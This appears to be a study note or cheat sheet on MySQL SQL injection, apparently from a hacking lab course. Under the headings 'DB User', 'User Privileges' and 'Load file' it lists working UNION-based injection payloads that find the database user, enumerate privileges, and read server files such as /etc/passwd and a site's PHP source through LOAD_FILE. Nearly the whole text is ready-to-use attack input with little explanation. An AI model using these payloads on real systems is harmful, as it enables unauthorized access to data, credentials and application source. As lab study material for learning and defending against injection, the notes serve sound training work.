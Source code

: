 # Reading Files

## DB User

To be able to find our current DB user, we can use any of the following queries:

SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

Examples of injection :

cn' UNION SELECT 1, user(), 3, 4-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges

We can start looking for what privileges we have with that user :

SELECT super_priv FROM mysql.user

cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

The query returns Y, which means YES

cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -

## Load file

SELECT LOAD_FILE('/etc/passwd');

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- 

The HTML source can be viewed by hitting [Ctrl + U]
